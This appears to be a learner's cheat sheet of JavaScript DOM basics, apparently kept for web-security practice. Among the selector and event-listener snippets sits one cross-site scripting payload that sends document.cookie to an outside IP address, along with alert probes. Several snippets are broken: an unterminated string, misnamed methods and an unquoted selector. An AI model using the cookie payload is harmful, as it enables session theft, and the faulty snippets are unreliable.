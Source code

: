 # Document Object Model (DOM)

### Basics
```
console.log("Hello World!);

document.cookie


document.getElementById('1');

document.getElementByTagName('div');

document.getElementByClassName('list-items');

document.querySelector(#main-heading);

document.querySelectorAll('div');


document.write('something');

document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
```

### Event Listeners 
```
element.addEventListener("click", function);

element.addEventListener("mouseover", function);
```

### Window Objects

```
window.alert('1');
 
alert(prompt());

window.location = "http://127.0.0.1"

window.location.search
```

URLSearchParams
```
http://www.somehost.com?name=video

let querystring = window.location.search;
let urlParam = new URLSearchParams(querystring);
console.log(urlParam);
let value = urlParam.get('name');
console.log(value);
```
